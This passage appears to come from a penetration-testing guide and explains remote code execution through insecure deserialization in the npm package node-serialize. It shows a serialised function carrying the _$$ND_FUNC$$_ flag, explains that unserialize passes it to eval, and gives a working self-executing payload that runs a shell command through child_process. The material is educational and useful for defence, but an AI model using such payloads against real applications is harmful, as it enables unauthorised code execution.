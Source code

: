 <br>

### `__proto__` and `prototype` pollution

If you want to learn about this technique **take a look to the following tutorial**:

<br>

### [node-serialize](https://www.npmjs.com/package/node-serialize)

This library allows to serialise functions. Example:

```javascript
var y = {
  rce: function () {
    require("child_process").exec("ls /", function (error, stdout, stderr) {
      console.log(stdout);
    });
  },
};
var serialize = require("node-serialize");
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

The **serialised object** will looks like:

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```

You can see in the example that when a function is serialized the `_$$ND_FUNC$$_` flag is appended to the serialized object.

Inside the file `node-serialize/lib/serialize.js` you can find the same flag and how the code is using it.

![](<../../images/image (351).png>)

![](<../../images/image (446).png>)

As you may see in the last chunk of code, **if the flag is found** `eval` is used to deserialize the function, so basically **user input if being used inside the `eval` function**.

However, **just serialising** a function **won't execute it** as it would be necessary that some part of the code is **calling `y.rce`** in our example and that's highly **unlikable**.\
Anyway, you could just **modify the serialised object** **adding some parenthesis** in order to auto execute the serialized function when the object is deserialized.\
In the next chunk of code **notice the last parenthesis** and how the `unserialize` function will automatically execute the code:

```javascript
var serialize = require("node-serialize");
var test = {
  rce: "_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()",
};
serialize.unserialize(test);
```
